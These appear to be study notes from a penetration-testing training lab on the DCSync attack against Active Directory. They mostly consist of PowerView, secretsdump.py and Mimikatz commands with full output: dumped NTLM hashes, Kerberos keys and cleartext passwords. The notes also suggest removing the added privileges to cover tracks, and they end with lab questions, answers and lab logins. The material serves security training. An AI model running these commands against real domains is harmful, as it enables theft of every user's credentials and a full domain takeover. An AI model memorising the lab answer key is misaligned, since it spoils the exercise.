

# DCSync
## What is DCSync and How Does it Work?
DCSync is a technique for stealing the Active Directory password database by using the built-in `Directory Replication Service Remote Protocol`, which is used by Domain Controllers to replicate domain data. This allows an attacker to mimic a Domain Controller to retrieve user NTLM password hashes.

The crux of the attack is requesting a Domain Controller to replicate passwords via the `DS-Replication-Get-Changes-All` extended right. This is an extended access control right within AD, which allows for the replication of secret data.

To perform this attack, you must have control over an account that has the rights to perform domain replication (a user with the Replicating Directory Changes and Replicating Directory Changes All permissions set). Domain/Enterprise Admins and default domain administrators have this right by default.

### Viewing adunn's Replication Privileges through ADSI Edit



It is common during an assessment to find other accounts that have these rights, and once compromised, their access can be utilized to retrieve the current NTLM password hash for any domain user and the hashes corresponding to their previous passwords. Here we have a standard domain user that has been granted the replicating permissions:

### Using Get-DomainUser to View adunn's Group Membership

```pwsh
PS C:\htb> Get-DomainUser -Identity adunn  |select samaccountname,objectsid,memberof,useraccountcontrol |fl


samaccountname     : adunn
objectsid          : S-1-5-21-3842939050-3880317879-2865463114-1164
memberof           : {CN=VPN Users,OU=Security Groups,OU=Corp,DC=INLANEFREIGHT,DC=LOCAL, CN=Shared Calendar
                     Read,OU=Security Groups,OU=Corp,DC=INLANEFREIGHT,DC=LOCAL, CN=Printer Access,OU=Security
                     Groups,OU=Corp,DC=INLANEFREIGHT,DC=LOCAL, CN=File Share H Drive,OU=Security
                     Groups,OU=Corp,DC=INLANEFREIGHT,DC=LOCAL...}
useraccountcontrol : NORMAL_ACCOUNT, DONT_EXPIRE_PASSWORD
```

### Using Get-ObjectAcl to Check adunn's Replication Rights

```pwsh
PS C:\htb> $sid= "S-1-5-21-3842939050-3880317879-2865463114-1164"
PS C:\htb> Get-ObjectAcl "DC=inlanefreight,DC=local" -ResolveGUIDs | ? { ($_.ObjectAceType -match 'Replication-Get')} | ?{$_.SecurityIdentifier -match $sid} |select AceQualifier, ObjectDN, ActiveDirectoryRights,SecurityIdentifier,ObjectAceType | fl

AceQualifier          : AccessAllowed
ObjectDN              : DC=INLANEFREIGHT,DC=LOCAL
ActiveDirectoryRights : ExtendedRight
SecurityIdentifier    : S-1-5-21-3842939050-3880317879-2865463114-498
ObjectAceType         : DS-Replication-Get-Changes

AceQualifier          : AccessAllowed
ObjectDN              : DC=INLANEFREIGHT,DC=LOCAL
ActiveDirectoryRights : ExtendedRight
SecurityIdentifier    : S-1-5-21-3842939050-3880317879-2865463114-516
ObjectAceType         : DS-Replication-Get-Changes-All

AceQualifier          : AccessAllowed
ObjectDN              : DC=INLANEFREIGHT,DC=LOCAL
ActiveDirectoryRights : ExtendedRight
SecurityIdentifier    : S-1-5-21-3842939050-3880317879-2865463114-1164
ObjectAceType         : DS-Replication-Get-Changes-In-Filtered-Set

AceQualifier          : AccessAllowed
ObjectDN              : DC=INLANEFREIGHT,DC=LOCAL
ActiveDirectoryRights : ExtendedRight
SecurityIdentifier    : S-1-5-21-3842939050-3880317879-2865463114-1164
ObjectAceType         : DS-Replication-Get-Changes

AceQualifier          : AccessAllowed
ObjectDN              : DC=INLANEFREIGHT,DC=LOCAL
ActiveDirectoryRights : ExtendedRight
SecurityIdentifier    : S-1-5-21-3842939050-3880317879-2865463114-1164
ObjectAceType         : DS-Replication-Get-Changes-All
```

If we had certain rights over the user (such as [WriteDacl](https://bloodhound.specterops.io/resources/edges/write-dacl)), we could also add this privilege to a user under our control, execute the DCSync attack, and then remove the privileges to attempt to cover our tracks. DCSync replication can be performed using tools such as Mimikatz, Invoke-DCSync, and Impacket’s secretsdump.py.

### Extracting NTLM Hashes and Kerberos Keys Using secretsdump.py
Running the tool as below will write all hashes to files with the prefix `inlanefreight_hashes`. The `-just-dc` flag tells the tool to extract NTLM hashes and Kerberos keys from the NTDS file.

```sh
masterofblafu@htb[/htb]$ secretsdump.py -outputfile inlanefreight_hashes -just-dc INLANEFREIGHT/adunn@172.16.5.5 

Impacket v0.9.23 - Copyright 2021 SecureAuth Corporation

Password:
[*] Target system bootKey: 0x0e79d2e5d9bad2639da4ef244b30fda5
[*] Searching for NTDS.dit
[*] Registry says NTDS.dit is at C:\Windows\NTDS\ntds.dit. Calling vssadmin to get a copy. This might take some time
[*] Using smbexec method for remote execution
[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
[*] Searching for pekList, be patient
[*] PEK # 0 found and decrypted: a9707d46478ab8b3ea22d8526ba15aa6
[*] Reading and decrypting hashes from \\172.16.5.5\ADMIN$\Temp\HOLJALFD.tmp 
inlanefreight.local\administrator:500:aad3b435b51404eeaad3b435b51404ee:88ad09182de639ccc6579eb0849751cf:::
guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
lab_adm:1001:aad3b435b51404eeaad3b435b51404ee:663715a1a8b957e8e9943cc98ea451b6:::
ACADEMY-EA-DC01$:1002:aad3b435b51404eeaad3b435b51404ee:13673b5b66f699e81b2ebcb63ebdccfb:::
krbtgt:502:aad3b435b51404eeaad3b435b51404ee:16e26ba33e455a8c338142af8d89ffbc:::
ACADEMY-EA-MS01$:1107:aad3b435b51404eeaad3b435b51404ee:06c77ee55364bd52559c0db9b1176f7a:::
ACADEMY-EA-WEB01$:1108:aad3b435b51404eeaad3b435b51404ee:1c7e2801ca48d0a5e3d5baf9e68367ac:::
inlanefreight.local\htb-student:1111:aad3b435b51404eeaad3b435b51404ee:2487a01dd672b583415cb52217824bb5:::
inlanefreight.local\avazquez:1112:aad3b435b51404eeaad3b435b51404ee:58a478135a93ac3bf058a5ea0e8fdb71:::

<SNIP>

d0wngrade:des-cbc-md5:d6fee0b62aa410fe
d0wngrade:dec-cbc-crc:d6fee0b62aa410fe
ACADEMY-EA-FILE$:des-cbc-md5:eaef54a2c101406d
svc_qualys:des-cbc-md5:f125ab34b53eb61c
forend:des-cbc-md5:e3c14adf9d8a04c1
[*] ClearText password from \\172.16.5.5\ADMIN$\Temp\HOLJALFD.tmp 
proxyagent:CLEARTEXT:Pr0xy_ILFREIGHT!
[*] Cleaning up...
```

We can use the `-just-dc-ntlm` flag if we only want NTLM hashes or specify `-just-dc-user <USERNAME>` to only extract data for a specific user. Other useful options include `-pwd-last-set` to see when each account's password was last changed and `-history` if we want to dump password history, which may be helpful for offline password cracking or as supplemental data on domain password strength metrics for our client. The `-user-status` is another helpful flag to check and see if a user is disabled.

If we check the files created using the `-just-dc` flag, we will see that there are three: one containing the NTLM hashes, one containing Kerberos keys, and one that would contain cleartext passwords from the NTDS for any accounts set with reversible encryption enabled.

### Listing Hashes, Kerberos Keys, and Cleartext Passwords

```sh
masterofblafu@htb[/htb]$ ls inlanefreight_hashes*

inlanefreight_hashes.ntds  inlanefreight_hashes.ntds.cleartext  inlanefreight_hashes.ntds.kerberos
```

### Viewing an Account with Reversible Encryption Password Storage Set
When this option is set on a user account, it does not mean that the passwords are stored in cleartext. Instead, they are stored using RC4 encryption. The trick here is that the key needed to decrypt them is stored in the registry (the [Syskey](https://docs.microsoft.com/en-us/windows-server/security/kerberos/system-key-utility-technical-overview)) and can be extracted by a Domain Admin or equivalent. Tools such as `secretsdump.py` will decrypt any passwords stored using reversible encryption while dumping the NTDS file either as a Domain Admin or using an attack such as DCSync.

### Find all Active Directory users that have the “password not required” flag set.

```pwsh
PS C:\htb> Get-ADUser -Filter 'userAccountControl -band 128' -Properties userAccountControl

DistinguishedName  : CN=PROXYAGENT,OU=Service Accounts,OU=Corp,DC=INLANEFREIGHT,DC=LOCAL
Enabled            : True
GivenName          :
Name               : PROXYAGENT
ObjectClass        : user
ObjectGUID         : c72d37d9-e9ff-4e54-9afa-77775eaaf334
SamAccountName     : proxyagent
SID                : S-1-5-21-3842939050-3880317879-2865463114-5222
Surname            :
userAccountControl : 640
UserPrincipalName  :
```

### Checking for Reversible Encryption Option using Get-DomainUser
We can see that one account, `proxyagent`, has the reversible encryption option set with PowerView as well:

```pwsh
PS C:\htb> Get-DomainUser -Identity * | ? {$_.useraccountcontrol -like '*ENCRYPTED_TEXT_PWD_ALLOWED*'} |select samaccountname,useraccountcontrol

samaccountname                         useraccountcontrol
--------------                         ------------------
proxyagent     ENCRYPTED_TEXT_PWD_ALLOWED, NORMAL_ACCOUNT
```

### Displaying the Decrypted Password

```sh
masterofblafu@htb[/htb]$ cat inlanefreight_hashes.ntds.cleartext 

proxyagent:CLEARTEXT:Pr0xy_ILFREIGHT!
```

We can perform the attack with Mimikatz as well. Using Mimikatz, we must target a specific user. Here we will target the built-in administrator account. We could also target the `krbtgt` account and use this to create a `Golden Ticket` for persistence, but that is outside the scope of this module.

Also it is important to note that Mimikatz must be ran in the context of the user who has DCSync privileges. We can utilize `runas.exe` to accomplish this:

### Using runas.exe

```pwsh
Microsoft Windows [Version 10.0.17763.107]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Windows\system32>runas /netonly /user:INLANEFREIGHT\adunn powershell
Enter the password for INLANEFREIGHT\adunn:
Attempting to start powershell as user "INLANEFREIGHT\adunn" ...
```

From the newly spawned powershell session, we can perform the attack:

### Performing the Attack with Mimikatz

```pwsh
PS C:\htb> .\mimikatz.exe

  .#####.   mimikatz 2.2.0 (x64) #19041 Aug 10 2021 17:19:53
 .## ^ ##.  "A La Vie, A L'Amour" - (oe.eo)
 ## / \ ##  /*** Benjamin DELPY `gentilkiwi` ( benjamin@gentilkiwi.com )
 ## \ / ##       > https://blog.gentilkiwi.com/mimikatz
 '## v ##'       Vincent LE TOUX             ( vincent.letoux@gmail.com )
  '#####'        > https://pingcastle.com / https://mysmartlogon.com ***/

mimikatz # privilege::debug
Privilege '20' OK

mimikatz # lsadump::dcsync /domain:INLANEFREIGHT.LOCAL /user:INLANEFREIGHT\administrator
[DC] 'INLANEFREIGHT.LOCAL' will be the domain
[DC] 'ACADEMY-EA-DC01.INLANEFREIGHT.LOCAL' will be the DC server
[DC] 'INLANEFREIGHT\administrator' will be the user account
[rpc] Service  : ldap
[rpc] AuthnSvc : GSS_NEGOTIATE (9)

Object RDN           : Administrator

** SAM ACCOUNT **

SAM Username         : administrator
User Principal Name  : administrator@inlanefreight.local
Account Type         : 30000000 ( USER_OBJECT )
User Account Control : 00010200 ( NORMAL_ACCOUNT DONT_EXPIRE_PASSWD )
Account expiration   :
Password last change : 10/27/2021 6:49:32 AM
Object Security ID   : S-1-5-21-3842939050-3880317879-2865463114-500
Object Relative ID   : 500

Credentials:
  Hash NTLM: 88ad09182de639ccc6579eb0849751cf

Supplemental Credentials:
* Primary:NTLM-Strong-NTOWF *
    Random Value : 4625fd0c31368ff4c255a3b876eaac3d

<SNIP>
```

## Questions
RDP to **10.129.44.249** (ACADEMY-EA-MS01) with user `htb-student` and password `Academy_student_AD!`
SSH to **10.129.44.250** (ACADEMY-EA-ATTACK01) with user `htb-student` and password `HTB_@cademy_stdnt!`
1. Perform a DCSync attack and look for another user with the option "Store password using reversible encryption" set. Submit the username as your answer. **Answer: syncron**
   - Find users with reversible encryption option enabled:
        ```pwsh
        PS C:\Tools> Import-Module .\PowerView.ps1
        PS C:\Tools> Get-DomainUser -Identity * | ? {$_.useraccountcontrol -like '*ENCRYPTED_TEXT_PWD_ALLOWED*'} |select samaccountname,useraccountcontrol

        samaccountname                         useraccountcontrol
        --------------                         ------------------
        proxyagent     ENCRYPTED_TEXT_PWD_ALLOWED, NORMAL_ACCOUNT
        syncron        ENCRYPTED_TEXT_PWD_ALLOWED, NORMAL_ACCOUNT
        ```
2. What is this user's cleartext password? **Answer:**
   - Use secretdump.py (with `adunn`:`SyncMaster757`) to decrypt the password:
        ```sh
        $ssh htb-student@10.129.44.250
        $secretsdump.py -outputfile inlanefreight_hashes -just-dc INLANEFREIGHT/adunn@172.16.5.5
        <SNIP>
        [*] ClearText passwords grabbed
        proxyagent:CLEARTEXT:Pr0xy_ILFREIGHT!
        syncron:CLEARTEXT:Mycleart3xtP@ss!
        <SNIP>
        ```
3. Perform a DCSync attack and submit the NTLM hash for the khartsfield user as your answer. **Answer: 4bb3b317845f0954200a6b0acc9b9f9a**
   - Run powershell as administrator, then use runas to run mimikatz in the context of adunn user:
        ```pwsh
        # Elevated Powershell session
        PS C:\Windows\system32> runas /netonly /user:INLANEFREIGHT\adunn powershell
        Enter the password for INLANEFREIGHT\adunn:
        Attempting to start powershell as user "INLANEFREIGHT\adunn" ...

        # In adunn context
        PS C:\Tools\mimikatz\x64> .\mimikatz.exe

        .#####.   mimikatz 2.2.0 (x64) #19041 Aug 10 2021 17:19:53
        .## ^ ##.  "A La Vie, A L'Amour" - (oe.eo)
        ## / \ ##  /*** Benjamin DELPY `gentilkiwi` ( benjamin@gentilkiwi.com )
        ## \ / ##       > https://blog.gentilkiwi.com/mimikatz
        '## v ##'       Vincent LE TOUX             ( vincent.letoux@gmail.com )
        '#####'        > https://pingcastle.com / https://mysmartlogon.com ***/

        mimikatz # privilege::debug
        Privilege '20' OK

        mimikatz # lsadump::dcsync /domain:INLANEFREIGHT.LOCAL /user:INLANEFREIGHT\khartsfield
        [DC] 'INLANEFREIGHT.LOCAL' will be the domain
        [DC] 'ACADEMY-EA-DC01.INLANEFREIGHT.LOCAL' will be the DC server
        [DC] 'INLANEFREIGHT\khartsfield' will be the user account
        [rpc] Service  : ldap
        [rpc] AuthnSvc : GSS_NEGOTIATE (9)

        Object RDN           : Kim Hartsfield

        ** SAM ACCOUNT **

        SAM Username         : khartsfield
        User Principal Name  : khartsfield@inlanefreight.local
        Account Type         : 30000000 ( USER_OBJECT )
        User Account Control : 00010200 ( NORMAL_ACCOUNT DONT_EXPIRE_PASSWD )
        Account expiration   :
        Password last change : 10/27/2021 10:37:03 AM
        Object Security ID   : S-1-5-21-3842939050-3880317879-2865463114-1138
        Object Relative ID   : 1138

        Credentials:
        Hash NTLM: 4bb3b317845f0954200a6b0acc9b9f9a
            ntlm- 0: 4bb3b317845f0954200a6b0acc9b9f9a
            lm  - 0: 6d57ae87ad6df46fd47e67f5cbbf17ad

        <SNIP>
        ```

